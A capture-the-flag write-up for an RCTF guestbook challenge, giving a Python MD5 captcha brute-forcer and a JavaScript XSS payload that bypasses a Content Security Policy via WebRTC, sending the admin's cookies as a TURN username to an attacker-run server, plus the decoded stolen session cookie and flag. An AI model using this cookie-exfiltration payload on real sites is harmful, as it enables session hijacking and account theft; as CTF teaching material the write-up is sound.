 ![](challenge.png)

We are given access to a guestbook where we can leave messages and a feedback section where we can ask the admin to take a look at our post. However the feedback form is protected with a captcha `substr(md5(captcha), 0, 6) == "123456"`, where, according to the hint the captcha is a number between 1 and 10000000. This small python script solves that:

```python
import hashlib

target = 'fb0bd2'
candidate = 0
for candidate in range(0,10000000):
    plaintext = str(candidate)
    hash = hashlib.md5(plaintext.encode('ascii')).hexdigest()
    if hash[:6] == target:
        print('plaintext:"' + plaintext + '", md5:' + hash)
        break
    candidate = candidate + 1
```

We also notice two cookies, `hint1=flag1_is_in_cookie` and `hint2=meta_refresh_is_banned_in_server`. So presumably we must leak some cookie that the admin has when viewing our post. Sadly the CSP disallows every type of external connection. After a while I stumbled upon [a Github issue titled "WebRTC bypass CSP connect-src policies"](https://github.com/w3c/webrtc-pc/issues/1727). After that it was a relatively easy (but quite frustrating) endeavour to start a CoTURN server and craft a script that would send the cookies as username to that server.

```javascript
<script>function gotDescription(desc) {
    begin=window.performance.now();
    candidates=[];
    pc.setLocalDescription(desc);
}

function noDescription(error) {
    console.log('Error creating offer: ', error);
}

var pc=new RTCPeerConnection( {
    "iceServers":[ {
        "urls": ["turn:my.server.ip:3478"], "username": btoa(document.cookie), "credential": "password1"
    }
    ], "iceTransportPolicy":"all", "iceCandidatePoolSize":"0"
}

);
pc.createOffer( {
    offerToReceiveAudio: 1
}

).then( gotDescription, noDescription);
</script>
```

Check the log and decode it

```
# ~> echo ZmxhZz1SQ1RGe3dlbGMwbWVfdDBfdGhlX2NoYW9zX3cwcjFkfTsgUEhQU0VTU0lEPTExYmYwNzNjZWQwN2JlNzVlN2JlODA0MGUzNGRiZmUxOyBoaW50MT1mbGFnMV9pc19pbl9jb29raWU7IGhpbnQyPW1ldGFfcmVmcmVzaF9pc19iYW5uZWRfaW5fc2VydmVy|base64 -d
# flag=RCTF{welc0me_t0_the_chaos_w0r1d}; PHPSESSID=11bf073ced07be75e7be8040e34dbfe1; hint1=flag1_is_in_cookie; hint2=meta_refresh_is_banned_in_server⏎      
```

`RCTF{welc0me_t0_the_chaos_w0r1d}`
